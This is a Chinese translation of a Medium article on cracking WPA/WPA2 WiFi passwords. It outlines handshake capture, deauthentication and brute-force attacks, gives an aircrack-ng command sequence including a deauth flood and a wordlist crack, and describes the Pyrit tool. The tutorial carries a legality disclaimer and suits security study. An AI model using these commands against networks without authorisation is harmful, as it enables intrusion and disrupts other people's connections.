


# Wifi 破解

> 原文：<https://medium.com/hackernoon/wifi-cracking-48ad5594ba60>

> 请注意，侵入不属于您或您没有权限的网络是非法的。以下文章中的所有网络都是我自己所有的，或者与网络管理员达成一致，这些暴力攻击将会被尝试。



Successful crack

## 🆕更新的文章🆕

读完这篇文章后，点击这里查看更全面更新的第二篇文章

[](/@david.richard.holtz/wifi-cracking-ii-with-tutorial-5159b1ca385) [## WIFI 破解 II(附教程)

### ⚒️如何破解 WIFI 密码

medium.com](/@david.richard.holtz/wifi-cracking-ii-with-tutorial-5159b1ca385) 

# 大意

入侵网络有很长的历史。自从无线网络出现以来，一个显而易见的挑战就是保护这种不可见网络上的数据。已经有各种尝试来保护这种现象。这些安全尝试有几种风格，称为:

*   有线等效保密(WEP)
*   保护无线电脑网络安全系统(WPA)
*   保护无线电脑网络安全系统二世(WPA2)

所有这些方法在一段时间内都被证明是安全的，但都被破解了——要么是由于实际的安全缺陷，要么是实施错误，要么是固有的构建缺陷。我们的现代标准 WPA2 遭受建设问题检查 KRACK 攻击—【https://www.krackattacks.com/ 

# 攻击媒介

*   设置硬件监听所有数据包
*   捕获网络帧
*   选择基站和客户端
*   监听基站流量
*   作为客户端发送验证帧
*   捕捉到**的握手！**
*   暴力攻击——愚蠢地还是聪明地

## 基本命令

```
**airmon-ng start wlan0
airodump-ng mon0
airodump-ng --bssid 08:86:30:74:22:76 -c 6 --write WPAcrack mon0
aireplay-ng --deauth 100 -a 08:86:30:74:22:76 mon0
aircrack-ng WPAcrack-01.cap -w /pentest/passwords/wordlists/darkc0de**
```

# 软件

## Pyrit


Pyrit Logo

> “Pyrit 允许您在空间-时间权衡中创建预计算的 [WPA/WPA2-PSK](https://secure.wikimedia.org/wikipedia/en/wiki/Wi-Fi_Protected_Access) 认证阶段的大规模数据库。通过 [ATI-Stream](http://ati.amd.com/technology/streamcomputing/) 、 [Nvidia CUDA](http://www.nvidia.com/object/cuda_home_new.html) 和 [OpenCL](http://www.khronos.org/opencl/) 使用多核 CPU 和其他平台的计算能力，这是目前针对世界上最常用的安全协议之一的最强大的攻击。”



DeAuth attack

很棒的教程(不是用 Pyrit 而是同样的思路)-[https://null-byte . wonder how to . com/how-to/hack-wi-fi-cracking-wpa 2-PSK-passwords-using-air crack-ng-0148366/](https://null-byte.wonderhowto.com/how-to/hack-wi-fi-cracking-wpa2-psk-passwords-using-aircrack-ng-0148366/)